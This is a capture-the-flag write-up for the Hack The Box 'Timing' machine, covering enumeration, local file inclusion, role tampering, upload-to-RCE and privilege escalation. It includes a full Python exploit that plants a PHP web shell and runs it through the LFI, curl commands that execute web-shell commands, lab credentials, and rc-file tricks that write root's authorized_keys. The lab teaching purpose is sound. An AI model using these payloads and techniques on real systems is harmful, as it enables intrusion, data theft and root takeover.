

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.135 timing.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Simple WebApp
|_Requested resource was ./login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Got login page


Running ffuf found some 200 blank pages: `image.php`, `db_conn.php`
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt:FUZZ -u "http://10.10.11.135/FUZZ" -e .php

# ... [snip] ...

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 349ms]
.htpasswd.php           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 351ms]
.htaccess.php           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 352ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4709ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 613ms]
db_conn.php             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 598ms]
footer.php              [Status: 200, Size: 3937, Words: 1307, Lines: 116, Duration: 412ms]
header.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 614ms]
image.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 421ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 411ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 375ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 617ms]
login.php               [Status: 200, Size: 5609, Words: 1755, Lines: 178, Duration: 445ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 614ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 536ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 298ms]
upload.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 409ms]
:: Progress: [40950/40950] :: Job [1/1] :: 97 req/sec :: Duration: [0:08:26] :: Errors: 0 ::
```


# Foothold

## LFI

By guessing that there is a `/image.php` it is possible that it has a parameter like `img` (most common) which fetch images.
```bash
❯ curl -i 'http://10.10.11.135/image.php?img=/'
HTTP/1.1 200 OK
Date: Sat, 18 Dec 2021 10:09:40 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 25
Content-Type: text/html; charset=UTF-8

Hacking attempt detected!
```

There are some filters but it looks like this is a blacklist based filter because some php [Protocols and Wrappers](https://www.php.net/manual/en/wrappers.php.php) are working fine.


* There is a one user on the box `aaron`

And it's true there is a blacklist based filter


got database creds from `db_conn.php`
```php
❯ curl -s 'http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=db_conn.php' | base64 -d
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

* **Creads: `root:4_V3Ry_l0000n9_p422w0rd`**

Get logged in with `aaron:aaron` on webapp but still nothing.


## Admin role impersonate

There is a one php file `upload.php` that still left. try to get it from `aaron` login session Got permission error.


Using lfi to read the source code of `upload.php` with php Wrapper `http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=<file>`
```php
<?php
include("admin_auth_check.php");

// ... [snip] ...
```

`upload.php` only allowed for admin by checking logged in user role with `admin_auth_check.php`.
```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}

?>
```

Next thing to check is the profile edit page.


When we update profile webapp post a request to `/profile_update.php`



From the source code of `/profile_update.php` there is a `if` statement for `role` parameter, if it set in the post request then update user role for **current session**.
```php
// ... [snip] ...

    if ($user !== false) {

        ini_set('display_errors', '1');
        ini_set('display_startup_errors', '1');
        error_reporting(E_ALL);

        $firstName = $_POST['firstName'];
        $lastName = $_POST['lastName'];
        $email = $_POST['email'];
        $company = $_POST['company'];
        $role = $user['role'];

        if (isset($_POST['role'])) {
            $role = $_POST['role'];
            $_SESSION['role'] = $role;
        }

// ... [snip] ...
```

With that we can update role for `aaron` form user to admin.

We can see current role of the user is `0` and `admin_auth_check.php` is checking for admin role `1`


Now send a post request with `role` parameter with value `1`


Now request `upload.php` from same session cookie and there is no permission error anymore.


## File upload RCE

Now let move to next part of the `upload.php` file code.
```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```

local file upload directory is `images/uploads/` which we can access with lfi.
```php
$upload_dir = "images/uploads/";
```

`file_name` variable is MD5 hash of `file_hash` variable which stored a random value using `uniqid()` function everytime it get executed and `time()` function which generate a epoch time of current time and  concat with `_` and orignal filename but instead of using `file_hash` as a variable developer use it as a string `'$file_hash'` in `file_name`. 

so the final name of uploaded file looks somethings like this: `MD5('$file_hash' + time()) + '_' + somefile.jpg`
```php
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
```

Then eliminating file with extension other than `jpg` using `pathinfo()` function with `PATHINFO_EXTENSION` to grab file extention and [php document](https://www.php.net/manual/en/function.pathinfo.php) says that "`PATHINFO_EXTENSION` returns only the **last one** extension"
```php
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
```

then checking `imageFileType` variable value for `jpg`
```php
if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}
```

But that extension part does not affect because we are going to load that file using php wrapper with lfi so we can still execute php code from a `random.jpg` file as long wrapper found php tag `<?php ... ?>` inside file.

There's only one thing left which is the MD5 hash that generate with a string `'$file_hash'` and php `time()` function output.

* [`time()`](https://www.php.net/manual/en/function.time.php) Returns the current time measured in the number of seconds since the Unix Epoch (January 1 1970 00:00:00 GMT). that means its value changes every second.
*  [`uniqid()`](https://www.php.net/manual/en/function.uniqid) Returns a prefixed unique identifier (13 char login random string) based on the current epoch time in microseconds level. There are 1 million possible combinations in 1 second. but we don't need to worry about this.


We can get the exact time when `upload.php` get executed from http response header `date` and convert it to epoch format and then generate MD5 hash with it.

* but if the `uniqid()` function implemented properly then this could be a pain to brute force the file name on the server because http date header does not go beyond seconds and than we have to guess that microsecond value.

```py
import requests as r
from dateutil import parser
import calendar

rspn = r.post("http://10.10.11.135/login.php")
print('[+] Server time: ', rspn.headers['date'])
dt = parser.parse(rspn.headers['date'])
time_epoch = calendar.timegm(dt.utctimetuple())
print('[+] epoch timestamp: ', time_epoch)
```
```bash
❯ python getepoch.py
[+] Server time:  Tue, 21 Dec 2021 11:39:19 GMT
[+] epoch timestamp:  1640086759
```

Now, we only need to upload a jpg file and generate file name like this `MD5('$file_hash' + time()) + '_' + somefile.jpg` and request it from uploaded direcotry `images/uploads/` with LFI. For doing everything i create a python script.
```py
import re
import calendar
import hashlib
import traceback
import requests as r
import json
from dateutil import parser
import tempfile
import argparse

s = r.session()
# s.proxies = {"http": "http://127.0.0.1:8080"}
url = "http://10.10.11.135"
arguparser = argparse.ArgumentParser(description='Run without any argument to uplaod a simple php web shell and request it with curl HTTP-POST request.')
arguparser.add_argument("--cmd", help="Direct comamnd execute. Default is php web shell.")
arguparser.add_argument("--file", help="Upload file form your filesystem. Default is simple php script with system function.")
arguparser.add_argument('-T', action='store_true', help="Enable traceback")
args = arguparser.parse_args()


def becomeAdmin():
    login_data = {"user": "aaron", "password": "aaron"}
    login_rspn = s.post(f"{url}/login.php?login=true", allow_redirects=True, data=login_data)
    check_login = re.findall(r'<h1 class="text-center" style="padding: 200px">(.*?)</h1>', login_rspn.text)[0]
    print("[+]", check_login)

    role_data = {"firstName": "test", "lastName": "test", "email": "test", "company": "test", "role": "1"}
    role_rspn = s.post(f"{url}/profile_update.php", data=role_data)
    print("[+] user role changed to: ", json.loads(role_rspn.text)["role"])


def uploadFile(cmd=None):
    becomeAdmin()
    # Generate temporary file with pyaload
    f = tempfile.NamedTemporaryFile(suffix=".jpg")
    if args.cmd:
        file_content = f"""<?php system('{cmd}'); ?>""".encode('UTF-8')
    else:
        file_content = "<?php system($_POST['cmd']); ?>".encode('UTF-8')
    f.write(file_content)
    f.seek(0)
    # print("[+] Name of the file is:", f.name.rsplit('/')[-1])

    # Upload file
    global input_file
    if args.file:
        if args.file.lower().endswith('.jpg'):
            input_file = args.file
        else:
            exit('[!] Only .jpg supported!')
    else:
        input_file = f.name
    with open(input_file, 'rb') as f:
        upload_rspn = s.post(f"{url}/upload.php", files={'fileToUpload': f})
    print("[+]", upload_rspn.text)

    # Create epoch timestamp of uploaded time
    print('[+] Upload time: ', upload_rspn.headers['date'])
    dt = parser.parse(upload_rspn.headers['date'])
    time_epoch = calendar.timegm(dt.utctimetuple())
    print('[+] epoch timestamp: ', time_epoch)

    # Create filename
    hash_part = '$file_hash' + str(time_epoch)
    file_name = hashlib.md5(hash_part.encode('utf-8')).hexdigest() + "_" + f.name.rsplit('/')[-1]
    f.close()
    print("[+] Uploaded file name:", file_name)
    if args.file:
        exit(print("[+] File location: ", f"{url}/image.php?img=images/uploads/{file_name}"))
    else:
        # Request uploaded file with lfi
        if args.cmd:
            check_file = s.post(f"{url}/image.php?img=images/uploads/{file_name}")  # php://filter/read=/resource=
            print("[+] Payload response -\n", check_file.text)
        else:
            print("[+] PHP HTTP-POST web shell uploaded:", f"curl \"{url}/image.php?img=images/uploads/{file_name}\" --data \"cmd=id\"")
            print("[+] Testing web shell -\n", s.post(f"{url}/image.php?img=images/uploads/{file_name}", data={"cmd": "id"}).text)


if __name__ == "__main__":
    try:
        if args.cmd and args.file:
            exit('[!] Both arguments not allowed at once!')
        elif args.cmd:
            uploadFile(args.cmd)
        elif args.file:
            uploadFile()
        else:
            uploadFile()
    except Exception as e:
        if args.T:
            print(traceback.format_exc())
        else:
            print(e)
    except KeyboardInterrupt as e:
        print('KeyboardInterrupt')


s.close()
```

This script directly gives command output


But there are some issue while getting reverse shell.
```bash
WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111)
```

walking through the filesystem with web shell found a zip file in `/opt` directory.
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/8511adbe6698b34e753367c7f04b629a_tmple20q9e2.jpg" --data "cmd=ls -l /opt"
total 616
-rw-r--r-- 1 root root 627851 Jul 20 22:36 source-files-backup.zip
```

Downloading zip file with base64 encoding
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/8511adbe6698b34e753367c7f04b629a_tmple20q9e2.jpg" --data "cmd=cat /opt/source-files-backup.zip|base64 -w 0" > source-files-backup.zip.b64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  817k    0  817k  100    48   123k      7  0:00:06  0:00:06 --:--:--  150k

❯ cat source-files-backup.zip.b64| base64 -d > source-files-backup.zip
❯ file source-files-backup.zip
source-files-backup.zip: Zip archive data, at least v1.0 to extract, compression method=store
```

Zip file contains websile source code.
```bash
❯ unzip -q source-files-backup.zip
❯ cd backup
❯ tree
.
├── admin_auth_check.php
├── auth_check.php
├── avatar_uploader.php
├── css
│   ├── bootstrap.min.css
│   └── login.css
├── db_conn.php
├── footer.php
├── header.php
├── image.php
├── images
│   ├── background.jpg
│   ├── uploads
│   └── user-icon.png
├── index.php
├── js
│   ├── avatar_uploader.js
│   ├── bootstrap.min.js
│   ├── jquery.min.js
│   └── profile.js
├── login.php
├── logout.php
├── profile.php
├── profile_update.php
└── upload.php

4 directories, 21 files
```

We already reviewed most of the code, what else we can found from this backup.

There is a `.git` direcotry contains 2 commits


viewing second commit changes, found another passowrd


* **NewPassword: `S3cr3t_unGu3ss4bl3_p422w0Rd`**

Now this password worked in user `aaron` ssh login.

# Privesc

Right off the bat, found user `aaron`'s sudo privileges 
```bash
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

This is a shell script executing `/root/netutils.jar`. This utility allows to download file from ftp or http servers as root. 
```bash
aaron@timing:~$ file /usr/bin/netutils
/usr/bin/netutils: Bourne-Again shell script, ASCII text executable
aaron@timing:~$ cat /usr/bin/netutils
#! /bin/bash
java -jar /root/netutils.jar
```

Running pspy while executing `/usr/bin/netutils` found that `/root/netutils.jar` is executing `wget` with option 1 ftp and `/root/axel` with option 2 http.


## wget and axel rc files

Here we can use both binaries to get root as they are executing as root and both have some short of same functionality that can be used for privilege escalation.

Both commands have some uses of rc(run commands) file.

* **`rc`** suffix is commonly used for any file that contains startup information for a program.

      [Unix: from runcom files on the CTSS system 1962-63, via the startup script /etc/rc]

      Script file containing startup instructions for an application program (or an entire operating system), usually a text file containing commands of the sort that might have been invoked manually once the system was running but are to be executed automatically each time the system starts up.

* By default a rc file if used by a command then it is located in the user's HOME directory who is executing that command and automatically loads on command startup.

`axel` use `.axelrc` file as startup configuration file.
```bash
FILES
       /etc/axelrc
              System-wide configuration file.

       ~/.axelrc
              Personal configuration file.

       These  files  are  not  documented in a manpage, but the example file which comes with the program contains
       enough information. The position of the system-wide configuration file might be different. In  source  code
       this  example  file  is at doc/ directory. It's generally installed under /usr/share/doc/axel/examples/, or
       the equivalent for your system.
```

`wget` use `.wgetrc` as a startup command file same as configuration file. More detail [@gnu docs](https://www.gnu.org/software/wget/manual/wget.html#Startup-File)
```bash
-e command
--execute command
    Execute command as if it were a part of .wgetrc. A command thus invoked will be executed after the commands in .wgetrc, thus taking precedence over them. If you need to specify more than one wgetrc command, use multiple instances of -e. 
```


Both binaries have some level so same functionality that allows to set a default filename or default output location for downloaded files using `rc` file.

### wgetrc

`wget` has a option `output_document` which allow us set default location for output file.
```conf
# Set the output filename—the same as ‘-O file’.
#
output_document = file
```

We can create `.wgetrc` in current user "aaron's" $HOME folder and then normally run that `/usr/bin/netutils` command with option 1 and download file from our ftp server.
```bash
cat <<EOF > .wgetrc
# Set the output filename—the same as ‘-O file’.
#
output_document = /home/aaron/wgetrcit
EOF
```

Start python ftp server
```bash
python3 -m pyftpdlib -p 21 -V
```

Set default output file `/home/aaron/wgetrcit` and after succssfully executing command we get `wgetrcit` file owned by root with our content.


And if we run same command again it append new content in the same file instead of create new or overwrite existing one.


with that we can append a root user in `/etc/passwd` file or add ssh public key in root ssh directory.

Lets create ssh `authorized_keys` in `/root/.ssh` and put our ssh public key.
```bash
cat <<EOF > .wgetrc
# Set the output filename—the same as ‘-O file’.
#
output_document = /root/.ssh/authorized_keys
EOF
```

* Before running make sure that `/usr/bin/netutils` executing wget is recursive mode with `-r`.


### axelrc

`axel` has a option `default_filename` which work same as wget and allow us set default location for output file.
```conf
# When downloading a HTTP directory/index page, (like http://localhost/~me/)
# what local filename do we have to store it in?
#
default_filename = default
```

We can create `.axelrc` in current user "aaron's" $HOME folder and then normally run that `/usr/bin/netutils` command with option 2.
```bash
cat <<EOF > .axelrc
# When downloading a HTTP directory/index page, (like http://localhost/~me/)
# what local filename do we have to store it in?
#
default_filename = /home/aaron/axelrcit
EOF
```

Set default output file `/home/aaron/axelrcit` and after succssfully executing command we get `axelrcit` file owned by root with our content but where wget use wgetrc comamnd for all files, axel only uses axelrc command for HTTP directory/index page like `http://url/` where url does not specifies any file suffix like `/document.txt` in this case axel download web servers default `index.html` page.


But, if we run same command again axel creates new file with `.0` suffix, same name file already exists


With that we have some limitations where we can not append or overwrite existing file but we can still create arbitrary file in the filesystem.

i already write `/root/.ssh/authorized_keys` with wget let see what axel do with it.
```bash
cat <<EOF > .axelrc
# When downloading a HTTP directory/index page, (like http://localhost/~me/)
# what local filename do we have to store it in?
#
default_filename = /root/.ssh/authorized_keys
EOF
```

* Before downloading file we need to put content that we wanted to download form our web server in `index.html` file.


And it created a new authorized_keys file with `.0` and this is not gonna work but we are still able to create a arbitrary file in root directory.

